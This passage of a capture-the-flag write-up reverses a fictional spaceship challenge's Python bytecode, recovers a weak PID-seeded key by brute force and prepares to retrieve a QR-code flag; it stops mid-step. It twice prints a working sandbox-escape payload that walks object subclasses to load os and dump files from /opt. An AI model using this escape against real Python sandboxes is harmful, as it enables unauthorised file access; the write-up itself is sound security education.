The function loads the configured `mnv_cryptkey` and passes it to a `QuantumKey.from_hex()` function — creating a cryptographic key object.

Immediately after:

```python
 144            LOAD_GLOBAL             32 (_tool0ngdontc4lloopsy_QuantumCipher)
                LOAD_ATTR               35 (decrypt_bits + NULL|self)
                LOAD_GLOBAL             36 (_tool0ngdontc4lloopsy_QuantumCiphertext)
                LOAD_ATTR               31 (from_hex + NULL|self)
                LOAD_GLOBAL             38 (_tool0ngdontc4lloopsy_CIPHER)
                CALL                     1
                LOAD_FAST_BORROW         6 (key)
                CALL                     2
                STORE_FAST               7 (plain)

 146            LOAD_FAST_BORROW         7 (plain)
                POP_JUMP_IF_NOT_NONE    11 (to L8)
                NOT_TAKEN

 147            LOAD_GLOBAL             41 (Exception + NULL)
                CALL                     0
                RAISE_VARARGS            1
```

This step:

- Loads a constant encrypted blob: `_tool0ngdontc4lloopsy_CIPHER`
- Parses it via `QuantumCiphertext.from_hex()`
- Decrypts it using `QuantumCipher.decrypt_bits(...)` with the key
- Stores the result in plain

If decryption fails (`plain` is `None`), an exception is raised and the system eventually prints an error (we’ll see that later).

Next comes this section:

```python
 151    L8:     LOAD_GLOBAL             43 (range + NULL)
                LOAD_SMALL_INT          40
                CALL                     1
                GET_ITER

 149            LOAD_FAST_AND_CLEAR      8 (y)
                LOAD_FAST_AND_CLEAR      9 (x)
                SWAP                     3
        L9:     BUILD_LIST               0
                SWAP                     2

 151            GET_ITER
       L10:     FOR_ITER                60 (to L15)
                STORE_FAST               8 (y)

 150            LOAD_GLOBAL             43 (range + NULL)
                LOAD_SMALL_INT          40
                CALL                     1
                GET_ITER
                LOAD_FAST_AND_CLEAR      9 (x)
                SWAP                     2
       L11:     BUILD_LIST               0
                SWAP                     2
                GET_ITER
       L12:     FOR_ITER                34 (to L13)
                STORE_FAST               9 (x)
                LOAD_GLOBAL             45 (int + NULL)
                LOAD_FAST_BORROW_LOAD_FAST_BORROW 120 (plain, y)
                LOAD_SMALL_INT          40
                BINARY_OP                5 (*)
                LOAD_FAST_BORROW         9 (x)
                BINARY_OP                0 (+)
                BINARY_OP               26 ([])
                CALL                     1
                LIST_APPEND              2
                JUMP_BACKWARD           36 (to L12)
       L13:     END_FOR
                POP_ITER
       L14:     SWAP                     2
                STORE_FAST               9 (x)
                LIST_APPEND              2
                JUMP_BACKWARD           62 (to L10)

 151   L15:     END_FOR
                POP_ITER

 149   L16:     STORE_FAST              10 (mat)
                STORE_FAST               8 (y)
                STORE_FAST               9 (x)
```

can be simplified to more or less:

```python
# Build a 40x40 matrix from `plain`
FOR y in range(40):
    FOR x in range(40):
        value = int(plain[y * 40 + x])
        row.append(value)
    mat.append(row)
```

The decrypted payload is expected to be **1600 bytes** long — arranged into a **40×40 matrix**. This matrix likely represents a **QR code** or similar visual structure.

Then:

```python
 154            LOAD_FAST_BORROW        10 (mat)
                TO_BOOL
                POP_JUMP_IF_TRUE        11 (to L17)
                NOT_TAKEN

 155            LOAD_GLOBAL             41 (Exception + NULL)
                CALL                     0
                RAISE_VARARGS            1
```

This check ensures the decryption succeeded in a meaningful way.

The system then prepares a list of terminal-style prompts:

```python
 154   L17:     NOP

 161            BUILD_LIST               0
                LOAD_CONST              17 (('>> Manual Navigation Vectoring override initiated...', '>> ATHENA: Warning. Hyper-entropic drive activation is prohibited by primary protocols.', ">> Overriding ATHENA's safeguards requires external validation.", '>> Generating advanced command authorization token...', '>> Please SCAN the generated quantum signature to confirm operator intent.', '>> Awaiting external validation input...\n'))
                LIST_EXTEND              1
                STORE_FAST              11 (prefix_lines)
```

meaning:

```python
prefix_lines = [
  '>> Manual Navigation Vectoring override initiated...',
  '>> ATHENA: Warning. Hyper-entropic drive activation is prohibited by primary protocols.',
  ">> Overriding ATHENA's safeguards requires external validation.",
  '>> Generating advanced command authorization token...',
  '>> Please SCAN the generated quantum signature to confirm operator intent.',
  '>> Awaiting external validation input...\n'
]
```

Then it does the following:


```python
  # Clear the screen
 170            LOAD_GLOBAL              5 (_tool0ngdontc4lloopsy_print + NULL)
                LOAD_CONST               8 ('\x1b[2J\x1b[H')
                CALL                     1
                POP_TOP

 # Iter on `prefix_lines` to print them with a delay
 171            LOAD_FAST               11 (prefix_lines)
                GET_ITER
       L18:     FOR_ITER                25 (to L19)
                STORE_FAST              12 (line)

 172            LOAD_GLOBAL              5 (_tool0ngdontc4lloopsy_print + NULL)
                LOAD_FAST               12 (line)
                CALL                     1
                POP_TOP

 173            LOAD_GLOBAL             47 (_tool0ngdontc4lloopsy_sleep + NULL)
                LOAD_SMALL_INT           1
                CALL                     1
                POP_TOP
                JUMP_BACKWARD           27 (to L18)

 171   L19:     END_FOR
                POP_ITER

  # Display a qrcode using the matrice from the decrypted cipher.
 175            LOAD_GLOBAL             49 (_tool0ngdontc4lloopsy_qrshow + NULL)
                LOAD_FAST_LOAD_FAST    186 (prefix_lines, mat)
                LOAD_SMALL_INT           1
                LOAD_CONST               9 (0.1)
                LOAD_CONST              10 (('border', 'delay'))
                CALL_KW                  4
                POP_TOP
```

that can be interpreted as follow:

```python
# Clear screen
print('\x1b[2J\x1b[H')

# Print each line with delay
for line in prefix_lines:
    print(line)
    sleep(1)

# Display the QR matrix
qrshow(prefix_lines, mat, border=1, delay=0.1)
```

This is a dramatized authentication flow. ATHENA displays a visual quantum signature as a QR code, inviting the operator (you) to scan and validate it externally.

This is most likely where the flag is revealed, encoded directly in the matrix.

After the display, ATHENA "accepts" the override, and updates internal state:


```python
 # Again print some lore messages
 177            LOAD_GLOBAL             47 (_tool0ngdontc4lloopsy_sleep + NULL)
                LOAD_SMALL_INT           5
                CALL                     1
                POP_TOP

 178            LOAD_GLOBAL              5 (_tool0ngdontc4lloopsy_print + NULL)
                LOAD_CONST              11 ('\n>> External validation signal received. Proceeding with manual override.')
                CALL                     1
                POP_TOP

 179            LOAD_GLOBAL             47 (_tool0ngdontc4lloopsy_sleep + NULL)
                LOAD_SMALL_INT           1
                CALL                     1
                POP_TOP

 180            LOAD_GLOBAL              5 (_tool0ngdontc4lloopsy_print + NULL)
                LOAD_CONST              12 ('>> ATHENA: Manual navigation control granted. Hyper-entropic drive initializing...')
                CALL                     1
                POP_TOP

 181            LOAD_GLOBAL             47 (_tool0ngdontc4lloopsy_sleep + NULL)
                LOAD_SMALL_INT           1
                CALL                     1
                POP_TOP

 182            LOAD_GLOBAL              5 (_tool0ngdontc4lloopsy_print + NULL)
                LOAD_CONST              13 ('>> Course set to ')
                LOAD_FAST                5 (corridor)
                LOAD_SMALL_INT           0
                BINARY_OP               26 ([])
                FORMAT_SIMPLE
                LOAD_CONST              14 ('. May fortune favor this reckless endeavor.')
                BUILD_STRING             3
                CALL                     1
                POP_TOP
```

From a gameplay standpoint, this marks the **success state** — ATHENA is overridden, the drive is online, and the ship is ready to reach 55 Glont-Rune.

### 🧠 What we discovered so far

- The **decryption process is triggered only if all safety conditions are met** (valid cryptokey, known coordinates, acceptable distance).
- The **cipher is stored in a constant**: `_tool0ngdontc4lloopsy_CIPHER`, and is parsed with a custom `QuantumCiphertext.from_hex()`.
- The cryptographic logic relies on three custom classes:
  - `QuantumKey.from_hex()` — constructs a key object from a hex string
  - `QuantumCiphertext.from_hex()` — parses the encrypted blob
  - `QuantumCipher.decrypt_bits()` — decrypts the blob using the key
- The **decrypted result must be a 1600-byte payload** interpreted as a **40×40 matrix** of integers.
- This matrix is then rendered as a **QR code** using `qrshow(...)`, probably containing the **flag**.
- Once the matrix is valid and the display is completed, **ATHENA simulates confirmation and activates the hyper-entropic drive**.

---

### 📌 What remains to explore

To complete the challenge, we now need to:

👉 **Understand and reverse the cryptographic logic**

- How is the key (`mnv_cryptkey`) interpreted?
- What does `QuantumCipher.decrypt_bits()` actually do?
- Is there a way to **reconstruct the correct key** from the cipher, or are we expected to **brute-force something**?

👉 **Access and exfiltrate `_tool0ngdontc4lloopsy_CIPHER`**

- This constant holds the encrypted blob that will eventually become the QR code.
- We’ll need to locate it in memory or in another file and **dump its value** (just like we did with `main.pyc`).

👉 **Find and extract the flag**

- If the cipher decrypts properly, the resulting matrix will form a **QR code** that likely contains the final **flag** — no further validation appears to be performed.
- Our goal: **generate a valid matrix, scan it, and recover the flag**.

## 🚀 Step 8: Exfiltrating the Encryption Module and Inspecting Its Mechanism

While searching for `QuantumKey` in the disassembled `main.pyc`, we find the following:

```python

  32            LOAD_NAME               24 (__import__)
                PUSH_NULL
                LOAD_CONST              13 ('mnv_quantum_encryptor')
                CALL                     1
                LOAD_ATTR              120 (QuantumCiphertext)
                STORE_NAME              61 (_tool0ngdontc4lloopsy_QuantumCiphertext)

  33            LOAD_NAME               24 (__import__)
                PUSH_NULL
                LOAD_CONST              13 ('mnv_quantum_encryptor')
                CALL                     1
                LOAD_ATTR              124 (QuantumKey)
                STORE_NAME              63 (_tool0ngdontc4lloopsy_QuantumKey)

  34            LOAD_NAME               24 (__import__)
                PUSH_NULL
                LOAD_CONST              13 ('mnv_quantum_encryptor')
                CALL                     1
                LOAD_ATTR              128 (QuantumCipher)
                STORE_NAME              65 (_tool0ngdontc4lloopsy_QuantumCipher)

  36            LOAD_NAME               24 (__import__)
                PUSH_NULL
                LOAD_CONST              14 ('cipher')
                CALL                     1
                LOAD_ATTR              132 (CIPHER)
                STORE_NAME              67 (_tool0ngdontc4lloopsy_CIPHER)
```

This confirms that:

All three crypto classes — `QuantumCiphertext`, `QuantumKey`, and `QuantumCipher` — come from the same module: `mnv_quantum_encryptor`.

The constant cipher payload (`_CIPHER`) is imported from another module named `cipher`.

#### 📦 Step 8.1: Exfiltrating `mnv_quantum_encryptor.pyc`

We begin by dumping the `mnv_quantum_encryptor.pyc` file from the same directory as `main.pyc`. We use the exact same technique:

```bash
[a:=()]
[b:=a.__init__]
[c:=b.__objclass__]
[d:=c.__subclasses__]
[e:=d()]
[f:=e[0].__str__]
[g:=[f(a) for a in e]]
[g:=[a[8:-2] for a in g]]
[h:=g.index("tuple")]
[g:=[a[-10:] for a in g]]
[g:=[a[:-1] for a in g]]
[i:=g.index("inImporte")]
[j:=e[i]]
[k:='o',l:='s',m:=k+l]
[n:=j().load_module(m)]
[o:=n.path.getsize]
[p:=n.open]
[q:=n.read]
[r:=e[h]]
[s:="/opt/"]
[t:="019718.warp_engine"]
[uu:="/mnv_quantum_"]
[uuu:="encryptor.pyc"]
[u:=uu+uuu]
[v:=s+t+u]
[w:=p(v,0)]
[x:=o(v)]
[y:=q(w,x)]
{}[y.hex()]
```

We copy the hex output into a file named `mnv_quantum_encryptor.hex`, then spin up a **Python 3.14** container:


```bash
docker run --rm -it -v $(pwd):/data python:3.14.0b2-slim python
```

Inside the container:

```python
import dis
import marshal
import io

# Load hex and convert to bytes
bytecode = bytes.fromhex(open('/data/mnv_quantum_encryptor.hex', 'r').read())

# Skip .pyc header (typically 16 bytes for Python 3.7+)
code_object = marshal.load(io.BytesIO(bytecode[16:]))

# Disassemble
dis.dis(code_object)
```

#### 🔍 Step 8.2: Reversing the Quantum Encryption Logic

We now have the full disassembly of the encryption logic. Our next goal is to understand **how the key and cipher interact**, and **how to reverse-engineer the expected input** that generates a valid QR matrix.

**🔐 The QuantumCipher.decrypt_bits(...) entry point**

Let’s start at the top: this is the function that’s actually invoked in the `manual_navigation_vectoring` code. Its job is to take the `cipher` and the `key`, and return a **binary buffer** — or `None` if decryption fails.


```python
Disassembly of <code object decrypt_bits at 0x7fdd3b3fb0f0, file "mnv_quantum_encryptor.py", line 285>:
285           RESUME                   0

298           LOAD_GLOBAL              0 (QuantumCipher)
              LOAD_ATTR                3 (decrypt + NULL|self)
              LOAD_FAST_BORROW_LOAD_FAST_BORROW 1 (ciphertext, key)
              LOAD_FAST_BORROW         2 (with_checksum)
              LOAD_CONST               0 (('with_checksum',))
              CALL_KW                  3
              STORE_FAST               3 (hex_message)

299           LOAD_FAST_BORROW         3 (hex_message)
              POP_JUMP_IF_NOT_NONE     3 (to L1)
              NOT_TAKEN

300           LOAD_CONST               1 (None)
              RETURN_VALUE

301   L1:     LOAD_GLOBAL              0 (QuantumCipher)
              LOAD_ATTR                5 (hex_to_bin + NULL|self)
              LOAD_FAST_BORROW         3 (hex_message)
              CALL                     1
              RETURN_VALUE
```

Meaning:

```python
# decrypt_bits(ciphertext, key, with_checksum=True)
hex_message = QuantumCipher.decrypt(ciphertext, key, with_checksum)
if hex_message is None:
    return None
return QuantumCipher.hex_to_bin(hex_message)
```

- This function wraps the real logic, which lives in `QuantumCipher.decrypt(...)`
- If decryption fails (e.g., checksum mismatch), it short-circuits and returns `None`
- Otherwise, it returns a binary string

**🧬 Inside QuantumCipher.decrypt(...)**

This is where the real logic happens.

```python
Disassembly of <code object decrypt at 0x555b2a64f240, file "mnv_quantum_encryptor.py", line 209>:
209           RESUME                   0

222           LOAD_CONST               0 ('')
              STORE_FAST               3 (bin_result)

223           LOAD_GLOBAL              1 (len + NULL)
              LOAD_FAST_BORROW         1 (key)
              LOAD_ATTR                2 (rotations)
              CALL                     1
              STORE_FAST               4 (key_len)

224           LOAD_GLOBAL              5 (enumerate + NULL)
              LOAD_FAST_BORROW         0 (ciphertext)
              LOAD_ATTR                6 (phis)
              CALL                     1
              GET_ITER
      L1:     FOR_ITER               115 (to L2)
              UNPACK_SEQUENCE          2
              STORE_FAST_STORE_FAST   86 (i, phi_c)

225           LOAD_FAST_BORROW         1 (key)
              LOAD_ATTR                2 (rotations)
              LOAD_FAST_BORROW_LOAD_FAST_BORROW 84 (i, key_len)
              BINARY_OP                6 (%)
              BINARY_OP               26 ([])
              STORE_FAST               7 (phi_k)

226           LOAD_FAST_BORROW_LOAD_FAST_BORROW 103 (phi_c, phi_k)
              BINARY_OP               10 (-)
              LOAD_GLOBAL              8 (QuantumCipher)
              LOAD_ATTR               10 (PHI_OFFSET)
              BINARY_OP               10 (-)
              LOAD_SMALL_INT           2
              LOAD_GLOBAL             12 (math)
              LOAD_ATTR               14 (pi)
              BINARY_OP                5 (*)
              BINARY_OP                6 (%)
              STORE_FAST               8 (phi_m)

227           LOAD_FAST_BORROW         3 (bin_result)
              LOAD_GLOBAL              8 (QuantumCipher)
              LOAD_ATTR               17 (phi_to_bit + NULL|self)
              LOAD_FAST_BORROW         8 (phi_m)
              CALL                     1
              BINARY_OP               13 (+=)
              STORE_FAST               3 (bin_result)
              JUMP_BACKWARD          117 (to L1)

224   L2:     END_FOR
              POP_ITER

229           LOAD_FAST_BORROW         2 (with_checksum)
              TO_BOOL
              POP_JUMP_IF_FALSE       35 (to L4)
              NOT_TAKEN

230           LOAD_GLOBAL              8 (QuantumCipher)
              LOAD_ATTR               19 (verify_checksum + NULL|self)
              LOAD_FAST_BORROW         3 (bin_result)
              CALL                     1
              TO_BOOL
              POP_JUMP_IF_TRUE         3 (to L3)
              NOT_TAKEN

231           LOAD_CONST               1 (None)
              RETURN_VALUE

232   L3:     LOAD_FAST_BORROW         3 (bin_result)
              LOAD_CONST               1 (None)
              LOAD_CONST               2 (-8)
              BINARY_SLICE
              STORE_FAST               3 (bin_result)

234   L4:     LOAD_GLOBAL              8 (QuantumCipher)
              LOAD_ATTR               21 (bin_to_hex + NULL|self)
              LOAD_FAST_BORROW         3 (bin_result)
              CALL                     1
              RETURN_VALUE
```

meaning:

```python
bin_result = ""
key_len = len(key.rotations)

for i, phi_c in enumerate(ciphertext.phis):
    phi_k = key.rotations[i % key_len]
    phi_m = (phi_c - phi_k - PHI_OFFSET) % (2 * math.pi)
    bit = QuantumCipher.phi_to_bit(phi_m)
    bin_result += bit

if with_checksum:
    if not QuantumCipher.verify_checksum(bin_result):
        return None
    bin_result = bin_result[:-8]  # Remove checksum

return QuantumCipher.bin_to_hex(bin_result)
```

- Iterate over `ciphertext.phis` (angular values)
- For each phi:
    - Get corresponding key rotation from `key.rotations`
    - Compute: `φ_result = (φ_c - φ_k - PHI_OFFSET) % (2π)`
    - Convert result to a binary digit using `phi_to_bit(...)`
    - Append bit to result

🧠 So what does this mean?

We’re not dealing with a raw XOR — this is a **trigonometric encryption** scheme using:

- A list of angles (`phis`) encoded in the cipher
- A matching list of rotations in the key (also angles)
- A constant offset `PHI_OFFSET`
    - Which can be found in the file as
    ```python
    179           LOAD_CONST               1 (1.554984)
                STORE_NAME               4 (PHI_OFFSET)
    ```
- A projection function that maps angular deltas to bits: `phi_to_bit(...)`

And importantly:

- The key is represented by a list of floats: `key.rotations`
- Those are derived from the hex passed into `QuantumKey.from_hex()`

#### 🧪 Step 8.3: Understanding QuantumKey and Key Rotation Generation

Let's starts by trying to understand how the 8 bytes of the key converted into usable rotations[] for decryption, which may be answered by `QuantumKey.from_hex`

```python
Disassembly of <code object from_hex at 0x7fdd3b83e790, file "mnv_quantum_encryptor.py", line 33>:
  33           RESUME                   0

  44           LOAD_GLOBAL              0 (base64)
               LOAD_ATTR                2 (b64decode)
               PUSH_NULL
               LOAD_GLOBAL              4 (bytes)
               LOAD_ATTR                7 (fromhex + NULL|self)
               LOAD_FAST_BORROW         1 (b64_hex)
               CALL                     1
               CALL                     1
               STORE_FAST               2 (raw)

  45           LOAD_GLOBAL              9 (range + NULL)
               LOAD_SMALL_INT           0
               LOAD_GLOBAL             11 (len + NULL)
               LOAD_FAST_BORROW         2 (raw)
               CALL                     1
               LOAD_SMALL_INT           8
               CALL                     3
               GET_ITER
               LOAD_FAST_AND_CLEAR      3 (i)
               SWAP                     2
       L1:     BUILD_LIST               0
               SWAP                     2
               GET_ITER
       L2:     FOR_ITER                42 (to L3)
               STORE_FAST               3 (i)
               LOAD_GLOBAL             12 (struct)
               LOAD_ATTR               14 (unpack)
               PUSH_NULL
               LOAD_CONST               1 ('>d')
               LOAD_FAST_BORROW_LOAD_FAST_BORROW 35 (raw, i)
               LOAD_FAST_BORROW         3 (i)
               LOAD_SMALL_INT           8
               BINARY_OP                0 (+)
               BINARY_SLICE
               CALL                     2
               LOAD_SMALL_INT           0
               BINARY_OP               26 ([])
               LIST_APPEND              2
               JUMP_BACKWARD           44 (to L2)
       L3:     END_FOR
               POP_ITER
       L4:     STORE_FAST               4 (rotations)
               STORE_FAST               3 (i)

  46           LOAD_FAST_BORROW         0 (cls)
               PUSH_NULL
               LOAD_FAST_BORROW         4 (rotations)
               CALL                     1
               RETURN_VALUE

  --   L5:     SWAP                     2
               POP_TOP

  45           SWAP                     2
               STORE_FAST               3 (i)
               RERAISE                  0
ExceptionTable:
  L1 to L4 -> L5 [2]
```

```python
# from_hex(cls, b64_hex)
raw = base64.b64decode(bytes.fromhex(b64_hex))

rotations = []
for i in range(0, len(raw), 8):
    value = struct.unpack(">d", raw[i:i+8])[0]
    rotations.append(value)

return cls(rotations)
```

🧠 What this means:

- `mnv_cryptkey` is a **hex-encoded base64 string**
- Decoding involves two steps:
  - Hex → Bytes
  - Base64 decode → raw binary blob
- The raw data is expected to be a multiple of 8 bytes (each 8-byte block is a float64)
- These floats are interpreted as **rotation angles** in radians and stored in the key

💡 So for example, a key like this:

```
6341414141414141...
```

…would decode to an **8-byte float-encoded rotation**, and form part of the `rotations` array.

These values are then **cycled during decryption** via `rotations[i % len(rotations)]`.

🧪 Bonus: Exploring Key Generators
While analyzing QuantumKey, we noticed two additional class methods:

- `generate(...)`
- `openssl_key_generator(...)`

Let’s peek at both — they might help us craft or reverse keys.

- `generate(hex_str)`


```python

Disassembly of <code object generate at 0x7fdd3b3e3030, file "mnv_quantum_encryptor.py", line 48>:
 48           RESUME                   0

 59           LOAD_FAST_BORROW         0 (cls)
              LOAD_ATTR                1 (from_hex + NULL|self)
              LOAD_FAST_BORROW         1 (hex_str)
              CALL                     1
              RETURN_VALUE
```

This one is straightforward:

```python
# Just a wrapper
return cls.from_hex(hex_str)
```

Nothing new here — it simply wraps from_hex.

- `openssl_key_generator(seed=None)`

```python

Disassembly of <code object openssl_key_generator at 0x555b2a6fa730, file "mnv_quantum_encryptor.py", line 61>:
  61           RESUME                   0

  75           LOAD_FAST_BORROW         1 (seed)
               POP_JUMP_IF_NONE        42 (to L1)
               NOT_TAKEN
               LOAD_FAST_BORROW         1 (seed)
               LOAD_ATTR                1 (isdigit + NULL|self)
               CALL                     0
               TO_BOOL
               POP_JUMP_IF_FALSE       20 (to L1)
               NOT_TAKEN

  76           LOAD_GLOBAL              3 (int + NULL)
               LOAD_FAST_BORROW         1 (seed)
               CALL                     1
               LOAD_CONST               1 (32768)
               BINARY_OP                6 (%)
               STORE_FAST               2 (pid)
               JUMP_FORWARD            28 (to L2)

  78   L1:     LOAD_GLOBAL              4 (os)
               LOAD_ATTR                6 (getpid)
               PUSH_NULL
               CALL                     0
               LOAD_CONST               1 (32768)
               BINARY_OP                6 (%)
               STORE_FAST               2 (pid)

  80   L2:     LOAD_SMALL_INT           8
               STORE_FAST               3 (key_len)

  81           LOAD_GLOBAL              9 (range + NULL)
               LOAD_FAST_BORROW         3 (key_len)
               CALL                     1
               GET_ITER
               LOAD_FAST_AND_CLEAR      4 (i)
               SWAP                     2
       L3:     BUILD_LIST               0
               SWAP                     2
               GET_ITER
       L4:     FOR_ITER                56 (to L5)
               STORE_FAST               4 (i)
               LOAD_GLOBAL             10 (math)
               LOAD_ATTR               12 (sin)
               PUSH_NULL
               LOAD_FAST_BORROW_LOAD_FAST_BORROW 36 (pid, i)
               BINARY_OP                0 (+)
               CALL                     1
               LOAD_CONST               2 (1.0)
               BINARY_OP                6 (%)
               LOAD_SMALL_INT           2
               BINARY_OP                5 (*)
               LOAD_GLOBAL             14 (PI)
               BINARY_OP                5 (*)
               LIST_APPEND              2
               JUMP_BACKWARD           58 (to L4)
       L5:     END_FOR
               POP_ITER
       L6:     STORE_FAST               5 (rotations)
               STORE_FAST               4 (i)

  82           LOAD_FAST_BORROW         0 (cls)
               PUSH_NULL
               LOAD_FAST_BORROW         5 (rotations)
               LOAD_CONST               3 (('rotations',))
               CALL_KW                  1
               RETURN_VALUE

  --   L7:     SWAP                     2
               POP_TOP

  81           SWAP                     2
               STORE_FAST               4 (i)
               RERAISE                  0
ExceptionTable:
  L3 to L6 -> L7 [2]
```

This one is more interesting — it procedurally generates a valid `QuantumKey`. Here’s the logic:

```python
if seed is None or not seed.isdigit():
    pid = os.getpid() % 32768
else:
    pid = int(seed) % 32768

key_len = 8
rotations = []

for i in range(key_len):
    angle = 2 * math.sin(pid + i) % 1.0 * PI
    rotations.append(angle)

return cls(rotations=rotations)
```

**🧠 What this gives us:**

- A reproducible key-generation mechanism
- Based on either a provided numeric `seed` or the current PID
- Generates 8 deterministic floats based on `sin(pid + i)` → all modulated into `[0, 2π]`

**🕵️ Suspicious Design: Why is it called openssl_key_generator?**

While reading the implementation of `openssl_key_generator`, a few red flags emerge:

The function name explicitly mentions `openssl`, but **no OpenSSL API or binding is used.**

Instead, it relies on:

- `math.sin(...)`
- The **process ID** (`os.getpid()`)
- A fixed output length (`key_len = 8`)
- There’s no entropy pool, no secure randomness, no cryptographic salt — it's deterministic, low entropy, and **entirely guessable**.

This raises two immediate possibilities:

1. **The name is misleading — or intentionally misleading**
  Perhaps it was meant to mimic or “mock” a secure OpenSSL keygen, while actually being insecure by design — possibly for gameplay reasons or to reference a known vulnerability.
2. **This could be an intentional nod to a real-world cryptographic failure**
  In fact, this design mirrors the infamous **Debian OpenSSL vulnerability (CVE-2008-0166)**:

  > Debian’s OpenSSL fork removed entropy from key generation, leading to only 32,768 possible keys (one per PID).

Similarly, here:

The fallback value for the key is `pid % 32768`

This means only **32,768 possible seeds** could have been used during cipher generation — unless a seed was explicitly passed.

So if the `CIPHER` was generated using this function without specifying a seed, then the key **space is brutally small** — and exhaustively searchable.

If `openssl_key_generator()` was used to generate the key that encrypted the `CIPHER`, and **no explicit seed was passed**, then we only have to try:

```python
for seed in range(32768):
    key = QuantumKey.openssl_key_generator(seed)
    attempt = QuantumCipher.decrypt(cipher, key)
    if attempt: # Or if it forms a valid matrix
        ...
```

Even with some validation steps or checksum in place, this becomes brute-forceable within seconds or minutes, especially since we're working with deterministic output and a known ciphertext.

Next step: dump the CIPHER, reconstruct the local decryptor, and test keyspace traversal.

#### 🔓 Step 8.4: Extracting the Encrypted Payload and Brute-Forcing the Key

##### 8.4.1: Exfiltrating the Cipher Module

Just like we did for main.pyc and mnv_quantum_encryptor.pyc, we can recover the bytecode of the cipher module that holds the encrypted payload.

This time, we target:

```python
_tool0ngdontc4lloopsy_CIPHER ← from module `cipher.pyc`
```

To retrieve the file, we reuse our subclassing exploit, adapted as follows:

```python
[a:=()]
[b:=a.__init__]
[c:=b.__objclass__]
[d:=c.__subclasses__]
[e:=d()]
[f:=e[0].__str__]
[g:=[f(a) for a in e]]
[g:=[a[8:-2] for a in g]]
[h:=g.index("tuple")]
[g:=[a[-10:] for a in g]]
[g:=[a[:-1] for a in g]]
[i:=g.index("inImporte")]
[j:=e[i]]
[k:='o',l:='s',m:=k+l]
[n:=j().load_module(m)]
[o:=n.path.getsize]
[p:=n.open]
[q:=n.read]
[r:=e[h]]
[s:="/opt/"]
[t:="019718.warp_engine"]
[u:="/cipher.pyc"]
[v:=s+t+u]
[w:=p(v,0)]
[x:=o(v)]
[y:=q(w,x)]
{}[y.hex()]
```

As usual, we can run it in a clean Python 3.14 Docker environment:

```bash
docker run --rm -it -v $(pwd):/data python:3.14.0b2-slim python
```

And then disassemble the resulting .hex dump:

```python
import dis
import marshal
import io

bytecode = bytes.fromhex(open('/data/cipher.hex', 'r').read())
code_object = marshal.load(io.BytesIO(bytecode[16:]))  # skip header
dis.dis(code_object)
```

From this, we should be able to extract the value of the `CIPHER` constant.

```python
  0           RESUME                   0

  1           LOAD_CONST               0 ('50397765... <TRUNCATED>')
              STORE_NAME               0 (CIPHER)
              LOAD_CONST               1 (None)
              RETURN_VALUE
```

##### 8.4.2: Brute-Forcing the Key with PID Seeds

Once we’ve dumped the encrypted payload (let’s say `ciphertext`), we can now test our key hypothesis.

Here’s a minimal brute-force script based on the logic from `openssl_key_generator`:

```python
import base64
import struct
import os
import math

from tqdm import tqdm


class QuantumCiphertext:
    def __init__(self, phis):
        self.phis = phis

    @classmethod
    def from_hex(cls, b64_hex):
        hex_bytes = bytes.fromhex(b64_hex)

        raw = base64.b64decode(hex_bytes)

        phis = [
            struct.unpack(">d", raw[i:i+8])[0]
            for i in range(0, len(raw), 8)
        ]

        return cls(phis)

class QuantumKey:
    def __init__(self, rotations):
        self.rotations = rotations

    def to_hex(self):
        packed = b''.join(
            struct.pack(">d", r) for r in self.rotations
        )
        return base64.b64encode(packed).hex()

    @classmethod
    def openssl_key_generator(cls, seed=None):
        if seed is not None and seed.isdigit():
            pid = int(seed) % 32768
        else:
            pid = os.getpid() % 32768

        key_len = 8

        rotations = []
        for i in range(key_len):
            val = math.sin(pid + i) % 1.0
            val *= 2
            val *= math.pi
            rotations.append(val)

        return cls(rotations)

class QuantumCipher:
    PHI_OFFSET = 1.554984

    @staticmethod
    def phi_to_bit(phi):
        phi = phi % (2 * math.pi)

        if abs(phi - 0) < 1e-5 or abs(phi - 2 * math.pi) < 1e-5:
            return '0'

        if abs(phi - math.pi) < 1e-5:
            return '1'

        if phi < math.pi:
            return '0'
        else:
            return '1'

    @staticmethod
    def verify_checksum(bits):
        if len(bits) < 8:
            return False

        data = bits[:-8]
        check = bits[-8:]
        total = sum(int(b) for b in data)
        expected = bin(total % 256)[2:].zfill(8)

        return expected == check

    @staticmethod
    def decrypt_bits(ciphertext, key, with_checksum=True):
        hex_message = QuantumCipher.decrypt(ciphertext, key, with_checksum=with_checksum)

        if hex_message is None:
            return None

        return QuantumCipher.hex_to_bin(hex_message)

    @staticmethod
    def decrypt(ciphertext, key, with_checksum=True):
        bin_result = ""

        key_len = len(key.rotations)

        for i, phi_c in enumerate(ciphertext.phis):
            phi_k = key.rotations[i % key_len]

            phi_m = (phi_c - phi_k - QuantumCipher.PHI_OFFSET) % (2 * math.pi)

            bit = QuantumCipher.phi_to_bit(phi_m)

            bin_result += bit

        if with_checksum:
            if not QuantumCipher.verify_checksum(bin_result):
                return None

            bin_result = bin_result[:-8]

        return QuantumCipher.bin_to_hex(bin_result)

    @staticmethod
    def bin_to_hex(bin_str):
        if len(bin_str) % 4 != 0:
            bin_str = bin_str.ljust(len(bin_str) + (4 - len(bin_str) % 4), '0')

        return ''.join(
            hex(int(bin_str[i:i+4], 2))[2:]
            for i in range(0, len(bin_str), 4)
        )

    @staticmethod
    def hex_to_bin(hex_str):
        return ''.join(
            bin(int(c, 16))[2:].zfill(4) for c in hex_str
        )

if __name__ == "__main__":
    ciphertext_hex = "<truncated>"
    ciphertext = QuantumCiphertext.from_hex(ciphertext_hex)

    for pid in tqdm(range(1, 32768), desc="Recherche de la clé", unit="clé"):
        key = QuantumKey.openssl_key_generator(str(pid))
        decrypted = QuantumCipher.decrypt_bits(ciphertext, key)
        if decrypted and len(decrypted) == 1600 and set(decrypted).issubset({'0', '1'}):
            print(f"[✓] Clé retrouvée ! PID : {pid} − {key.to_hex()}")
            break
    else:
        print("[-] No key worked.")
```

## 🏁 Step 9: Overriding ATHENA and Retrieving the Flag

With the correct key in hand, we’re finally ready to unlock the propulsion system and trigger manual navigation.
Here’s what we need to do.

### 🛠️ 9.1: Configure the Navigation System

We start by accessing the hidden configuration interface:

```bash
>>> configure()
```

From there, we’ll set the required values:

**Define the cryptographic key**

```bash
>>> mnv_cryptkey <YOUR_KEY_HERE>
```

Replace with the recovered key in hex-encoded base64, as expected by `QuantumKey.from_hex`.

**Define the target coordinates**

```bash
>>> mnv_pos_r 0.77
>>> mnv_pos_theta 42.3
>>> mnv_pos_phi 123.7
```

These must match exactly one of the `KNOWN_QUANTUM_CORRIDORS` and `55 Glont-Rune` seems to be the most suited:

```python
